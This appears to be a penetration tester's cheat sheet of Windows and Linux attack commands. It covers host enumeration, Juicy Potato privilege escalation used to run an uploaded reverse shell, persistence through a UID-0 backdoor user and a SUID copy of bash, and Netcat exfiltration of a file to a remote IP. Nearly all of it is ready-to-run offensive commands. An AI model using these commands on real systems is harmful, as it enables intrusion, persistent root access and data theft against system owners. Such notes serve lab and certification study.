 # Windows

**Gathering Info**

```
whoami /priv
```

```
net user
```

```
systeminfo
```

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

```
dir c:\
```

```
dir "c:\program files"
```

```
dir "c:\program files (x86)"
```

```
wmic service get name,startname
```

```
wmic service get name,pathname,startname | findstr "Program Files"
```

```
cacls *.exe
```

**Juicy Potato**

* Download Juicy Potato to your attack machine
* Upload Juicy Potato to the target (ex: via FTP, SMB, HTTP, etc.)
* Create a reverse shell and upload it to the target (ex: via FTP, SMB, HTTP, etc.) use Juicy Potato to execute your reverse shell

```
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

```
JuicyPotato.exe -l 5050 -p C:\path\to\reverse-shell.exe -t *
```

**Persistence**

Add a new user.

```
useradd -p $(openssl passwd -crypt password) -s /bin/bash -o -u 0 -g 0 -m victor
```

Rootbash (Credit: Tib3rius).

```
# as root, create a copy of BASH and then set the SUID-bit
# to resume root-access execute the new binary using -p
cp /bin/bash /tmp/bash; chown root /tmp/bash; chmod u+s /tmp/bash; chmod o+x /tmp/bash
/tmp/bash -p
```

Exfil via Netcat.

```
nc -nvlp 5050 > stolen.exe
nc.exe -w3 10.11.12.13 5050 < stealme.exe
```
